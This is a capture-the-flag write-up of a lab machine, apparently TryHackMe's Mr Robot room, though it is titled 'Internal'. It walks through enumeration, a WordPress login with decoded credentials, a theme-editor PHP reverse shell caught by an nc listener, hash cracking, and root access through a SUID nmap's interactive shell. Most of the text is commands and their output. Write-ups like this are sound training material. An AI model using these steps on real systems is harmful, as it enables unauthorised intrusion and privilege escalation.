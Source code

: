```yaml
---
layout: default
title: Internal
description: THM - Internal
---
```


## Enumeration

Nmap Scan:
```
Nmap scan report for 10.10.190.33
Host is up (0.068s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
```
Gobuster:
```
/images
/blog
/rss               
/sitemap             
/login                
/0                   
/feed                 
/video               
/image                
/atom                 
/wp-content          
/admin                
/audio               
/intro                
/wp-login            
/css                  
/rss2                 
/license            
/wp-includes         
/js                   
/Image                
/rdf                 
/page1               
/readme              
/robots             
/dashboard
```
/Robots:
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
The fsocity.dic file is a list of usernames that we could potentially use to bruteforce the wordpress login.

/License:
```
what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?
do you want a password or something?
[REDACTED]
```

We found an ecrypted string. I'll throw it in cyberchef and see what comes up.
```
elliot:ER28-[REDACTED]
```
We found a login combination, so let's try in on the wordpress login page.

It worked!

We'll now upload the classic theme editor php shell, and see what's what.
```
nc -lvnp 9002                
Listening on 0.0.0.0 9002
Connection received on 10.10.190.33 36548
SOCKET: Shell has connected! PID: 2030
python3 -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:~$ cd /home
cd /home
daemon@linux:/home$ ls
ls
robot
daemon@linux:/home$ cd robot
cd robot
daemon@linux:/home/robot$ ls
ls
key-2-of-3.txt  password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@linux:/home/robot$ 
```
We found a hash for the password to the "robot" user.

I deciphered it using hashes.com.
```
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$
robot@linux:find / -perm /4000 
find / -perm /4000 
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
find: `/etc/ssl/private': Permission denied
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```
We have nmap with SUID permissions. Let's take a look on gtfobins.
```
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# cd /root
cd /root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3[REDACTED]
```
We got the root key!

Good hunting o7

[Try it out yourself!](https://tryhackme.com/room/mrrobot)


